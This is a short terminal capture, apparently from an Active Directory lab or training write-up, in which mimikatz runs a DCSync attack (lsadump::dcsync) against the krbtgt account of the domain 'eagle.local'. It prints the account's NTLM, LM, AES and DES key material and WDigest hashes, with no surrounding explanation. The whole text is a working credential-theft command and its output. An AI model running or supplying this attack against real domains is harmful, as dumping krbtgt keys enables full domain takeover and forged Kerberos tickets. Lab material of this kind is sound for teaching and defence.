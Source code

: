 ```
C:\WINDOWS\system32>cd ../../../

C:\>cd Mimikatz

C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /domain:eagle.local /user:krbtgt
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 07/08/2022 11.26.54
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: db0d0630064747072a7da3f7c3b4069e
    ntlm- 0: db0d0630064747072a7da3f7c3b4069e
    lm  - 0: f298134aa1b3627f4b162df101be7ef9

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : b21cfadaca7a3ab774f0b4aea0d7797f

* Primary:Kerberos-Newer-Keys *
    Default Salt : EAGLE.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1335dd3a999cacbae9164555c30f71c568fbaf9c3aa83c4563d25363523d1efc
      aes128_hmac       (4096) : 8ca6bbd37b3bfb692a3cfaf68c579e64
      des_cbc_md5       (4096) : 580229010b15b52f

* Primary:Kerberos *
    Default Salt : EAGLE.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 580229010b15b52f

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  b4799f361e20c69c6fc83b9253553f3f
    02  510680d277587431b476c35e5f56e6b6
    03  7f55d426cc922e24269610612c9205aa
    04  b4799f361e20c69c6fc83b9253553f3f
    05  510680d277587431b476c35e5f56e6b6
```